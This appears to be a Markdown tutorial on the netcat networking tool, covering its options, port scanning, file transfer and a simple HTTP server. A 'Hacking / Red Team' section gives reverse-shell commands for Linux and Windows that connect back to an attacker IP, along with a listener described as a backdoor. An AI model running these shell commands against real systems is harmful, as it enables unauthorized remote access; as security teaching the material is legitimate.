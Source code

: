 ![netcat.png](https://github.com/aw-junaid/Kali-Linux/blob/main/Kali%20Linux%20Tools/Images/netcat.png)

Netcat (often abbreviated as `nc`) is a versatile command-line utility for reading and writing data across network connections using TCP or UDP. It's often called the "Swiss Army knife" of networking because of its wide range of uses.

**What `netcat` Does:**

`netcat` can be used for various networking tasks, including:

* **Port Scanning:** Checking if ports are open on a target host.
* **Port Listening:** Listening on a specific port for incoming connections.
* **Data Transfer:** Sending and receiving data between two hosts.
* **Network Chat:** Creating a simple chat server.
* **Proxying:** Acting as a simple network proxy.
* **Banner Grabbing:** Retrieving banners from network services.
* **File Transfer:** Transferring files between hosts.
* **Reverse Shells:** Establishing a reverse shell connection to a target host (for penetration testing, but use responsibly and ethically).

**How to Use `netcat`:**

**Basic Usage:**

* **Connecting to somewhere (Client):**
  ```bash
  nc [-options] hostname port[s] [ports] ...
  ```
  * `nc`: The netcat command.
  * `[-options]`: Flags and parameters to customize the connection.
  * `hostname`: The target hostname or IP address.
  * `port[s] [ports] ...`: The port number(s) to connect to (can be a single port or a range of ports).

* **Listening for inbound (Server):**
  ```bash
  nc -l -p port [-options] [hostname] [port]
  ```
  * `nc`: The netcat command.
  * `-l`: Listen mode (for incoming connections).
  * `-p port`: The port number to listen on.
  * `[-options]`: Flags and parameters.
  * `[hostname]`: (Optional) The hostname to bind to.
  * `[port]`: (Optional) Another port number

**Options:**

* `-c shell commands`: Executes shell commands after a connection is established.  **Dangerous!**  Avoid using this unless you absolutely know what you're doing, as it can create security vulnerabilities.  It's similar to `-e` but uses `/bin/sh`.
* `-e filename`: Executes a program after a connection is established. **Dangerous!**  Similar to `-c`, this can be a major security risk if used improperly.
* `-b`: Allows broadcasts.
* `-g gateway`: Source-routing hop points (up to 8).
* `-G num`: Source-routing pointer (4, 8, 12, ...).
* `-h`: Displays this help message.
* `-i secs`: Delay interval for lines sent and port scans.
* `-k`: Sets the keepalive option on the socket (keeps the connection alive).
* `-l`: Listen mode (for inbound connections).
* `-n`: Numeric-only IP addresses (no DNS lookups).
* `-o file`: Hex dump of traffic to a file.
* `-p port`: Local port number.
* `-r`: Randomize local and remote ports.
* `-q secs`: Quit after EOF on stdin and a delay of `secs`.
* `-s addr`: Local source address.
* `-T tos`: Set Type Of Service.
* `-t`: Answer TELNET negotiation.
* `-u`: UDP mode.
* `-v`: Verbose output (use twice for more verbosity).
* `-w secs`: Timeout for connects and final net reads.
* `-C`: Send CRLF as line ending.
* `-z`: Zero-I/O mode (used for scanning; doesn't send any data).

### **Netcat (nc) Advanced Use Cases & Options** 🚀  


## **📌 Common Netcat Use Cases**

### **🔍 1. Port Scanning (Using `-z` and `-v`)**
```bash
nc -zv 192.168.1.1 1-1000
```
🔹 `-z`: Scan mode (does not send data)  
🔹 `-v`: Verbose output  
🔹 `1-1000`: Scan ports **1 to 1000**  

---

### **🖥️ 2. Start a Netcat Listener (Backdoor or Chat Server)**
```bash
nc -l -p 4444 -v
```
🔹 `-l`: Listen mode  
🔹 `-p 4444`: Listen on **port 4444**  
🔹 `-v`: Verbose mode  

#### **Connect to the Listener**
```bash
nc 192.168.1.10 4444
```

---

### **📂 3. File Transfer (Send & Receive)**
#### **Send a File**
```bash
nc -w 3 192.168.1.10 4444 < file.txt
```
🔹 `-w 3`: **Timeout** after 3 seconds  
🔹 Redirects `file.txt` to the target  

#### **Receive the File**
```bash
nc -l -p 4444 > received.txt
```

---

### **💻 4. Reverse Shell (Hacking / Red Team)**
⚠️ **For legal and authorized security testing only!**  

#### **On the Attacker Machine (Listener)**
```bash
nc -l -p 4444 -v
```

#### **On the Target Machine (Reverse Shell)**
```bash
nc -e /bin/bash 192.168.1.10 4444
```
🔹 `-e /bin/bash`: Opens a **bash shell** on the attacker machine  

💡 **Windows Alternative**
```powershell
nc.exe -e cmd.exe 192.168.1.10 4444
```

---

## **⚙️ Netcat Advanced Features & Options**

### **📡 5. Send Data to a UDP Server**
```bash
echo "Hello UDP" | nc -u 192.168.1.1 9999
```
🔹 `-u`: Use **UDP mode**  

---

### **🔗 6. Create a Simple HTTP Server**
```bash
while true; do nc -l -p 8080 < index.html; done
```
🔹 Serves `index.html` on **port 8080**  

---

### **🌐 7. Send Custom HTTP Requests**
```bash
echo -e "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | nc example.com 80
```
🔹 Sends an **HTTP GET request**  

---

### **🔄 8. Connect to an Open Telnet Server**
```bash
nc -t 192.168.1.1 23
```
🔹 `-t`: Enable **TELNET negotiation**  

---


**Important Considerations:**

* **UDP vs. TCP:** Remember to use the `-u` option if you need to use UDP instead of the default TCP.
* **Port Numbers:** Ports below 1024 often require root privileges.
* **Security:** Be very careful when using `netcat` for tasks like reverse shells.  Make sure you understand the security implications.  Use these techniques only on systems you own or have explicit permission to test.
* **Variations:** There are different implementations of `netcat` (e.g., the original `nc`, `ncat` from Nmap).  The available options might vary slightly.  Check the documentation for the version you are using.

`netcat` is an incredibly useful tool for network tasks.  Its flexibility makes it a valuable asset for network administrators, security professionals, and anyone who works with network connections.  However, like any powerful tool, it should be used responsibly and ethically.  Always prioritize obtaining proper authorization before using `netcat` on any network that you do not own.
